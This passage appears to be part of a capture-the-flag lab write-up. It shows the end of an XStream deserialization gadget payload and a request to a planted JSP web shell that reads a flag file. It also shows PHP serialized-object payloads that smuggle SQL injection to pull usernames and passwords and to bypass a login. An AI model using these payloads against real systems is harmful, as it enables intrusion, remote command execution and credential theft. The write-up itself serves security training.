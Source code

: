 ```
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

- `http://127.0.0.1:8104/jw.jspx?pwd=sin&i=cat /flag.txt`
    - ![](https://i.imgur.com/GqlUYbh.png)

**Flag: `CTF{1m4637r461ck_15_4_m461c}`**

## 0x1E A9 - Practice 3

1. `http://127.0.0.1:8105/?data=O:3:"WEB":4:{s:11:"%00WEB%00method";s:4:"show";s:9:"%00WEB%00args";a:1:{i:0;s:35:"boik'+and+1=2+union+select+1,2,3,'4";}s:9:"%00WEB%00conn";i:0;}`
    - ![](https://i.imgur.com/z6aUm6A.png)
1. `http://127.0.0.1:8105/?data=O:3:"WEB":4:{s:11:"%00WEB%00method";s:4:"show";s:9:"%00WEB%00args";a:1:{i:0;s:70:"boik'+and+1=2+union+select+1,username,3,password+from+users+limit+1--+";}s:9:"%00WEB%00conn";i:0;}`
    - ![](https://i.imgur.com/ouRi3nS.png)
2. `http://127.0.0.1:8105/?data=O:3:"WEB":4:{s:11:"%00WEB%00method";s:5:"login";s:9:"%00WEB%00args";a:2:{i:0;s:5:"bÔik";i:1;s:26:"abcdefghijklmnopqrstuvwxyz";}s:9:"%00WEB%00conn";i:0;}`
    - ![](https://i.imgur.com/KTk6ljx.png)

**Flag: `CTF{php 4nd mysq1 are s0 mag1c, isn't it?}`**
